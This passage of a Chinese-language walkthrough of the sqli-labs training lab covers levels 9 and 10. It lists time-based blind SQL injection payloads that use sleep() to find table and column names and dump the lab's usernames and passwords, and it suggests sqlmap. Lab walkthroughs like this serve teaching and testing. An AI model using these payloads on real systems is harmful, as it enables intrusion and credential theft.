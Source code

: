 ```cobol
?id=1' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='security'),1,1))=101,sleep(5),1)-- +
 
为e
 
最后爆破出来emails,referers,uagents,users
 
爆破字段的长度
?id=1' and if(length((select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema=database()))=20,sleep(5),1)-- +

为20

爆破字段的第一个字符
?id=1' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema=database()),1,1))=105,sleep(5),1)-- +
 
为i
 
最后为 id,username,password 
 
爆破值的长度
?id=1' and if(length((select group_concat(id,username,password)from security.users))=192,sleep(5),1)-- +

长度为192

开始爆破值
?id=1' and if(ascii(substr((select group_concat(id,username,password)from security.users),1,1))=49,sleep(5),1)-- +
 
最后爆破为
1DumbDumb,2AngelinaI-kill-you,3Dummyp@ssword,4securecrappy,5stupidstupidity,6supermangenious,7batmanmob!le,8adminadmin,9admin1admin1,10admin2admin2,11admin3admin3,12dhakkandumbo,14admin4admin4
```

这样时间注入就实现了

但是花费时间精力巨大 还是推荐sqlmap跑一下



## Less-10

```cobol
?id=1" and if(1=1,sleep(5),1)-- +
```

判断完字符类型

就和前面一样了

一样的 outfile 也可以使用 但是首先无法猜测字段 所以也就没有办法了
